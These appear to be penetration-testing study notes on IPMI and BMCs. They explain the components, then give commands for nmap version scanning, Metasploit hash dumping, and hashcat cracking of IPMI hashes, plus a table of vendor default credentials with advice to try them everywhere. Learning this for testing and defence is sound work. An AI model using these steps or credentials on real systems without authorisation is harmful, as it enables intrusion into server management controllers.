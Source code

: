 ## Intelligent Platform Management Interface (IPMI)

Standardised system for management and monitoring 
Works independently of the hosts BIOS, CPU and firmware. 
Allows admins to monitor systems even if they are powered off. 

Typically used in 3 ways:
	- Before the OS has booted to modify BIOS settings
	- When the host is fully powered down
	- Access to a host after a system failure

Can monitor things such as:
	System Temp
	Voltage 
	Fan status 
	power supplies. 
	Review hardware logs and alerting using SNMP.
	
Host system can be powered off but off IPMI needs a power source and LAN connectivity.

Required Components: 
	- Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
	- Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
	- Intelligent Platform Management Bus (IPMB) - extends the BMC
	- IPMI Memory - stores things such as the system event log, repository store data, and more
	- Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

Systems are known as Baseboard Management Controllers(BMCs)
Access to the BMC is nearly the same as physical access.
Many have a web based management console 

# Footprinting 
### Nmap
```shell-session
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

### Metasploit 
```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```

### Default Passwords 

|Product|Username| Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|

### Try default passwords on any system

### Dangerous Settings
http://fish2.com/ipmi/remote-pw-cracking.html

Crack with hashcat 
```shell-session 
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

No direct fix to this exploit. 
Only to use very long difficult to crack passwords or network segmentation rules.
Passwords may be reused. 

### Dump Hashes with MSF 
```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```
